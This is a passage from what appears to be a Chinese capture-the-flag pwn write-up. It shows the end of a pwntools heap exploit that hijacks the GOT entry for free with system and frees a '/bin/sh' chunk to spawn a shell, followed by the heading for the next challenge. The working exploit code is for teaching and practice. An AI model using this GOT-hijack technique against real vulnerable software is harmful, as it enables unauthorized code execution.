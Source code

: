 ```
    edit(1, 114514, payload)
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    payload2 = b'\xaa' * 3 + p64(0) * 4 + p64(e.got['free'])
    edit(5, 0x100, payload2)
    edit(0, 0x10, p64(e.plt['system']))

    new(0x60, b'/bin/sh\x00')
    free(6)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可getshell

![](img/e33b314286d9a01e3f8c2c2a8a20a5ef.png)

> 其实有一个cat flag的后门函数，不过pwn的最终目的自然是getshell，~~所以这个后门函数对👴来说不存在的~~

# 0x02C.babyfengshui_33c3_2016 - got table hijack
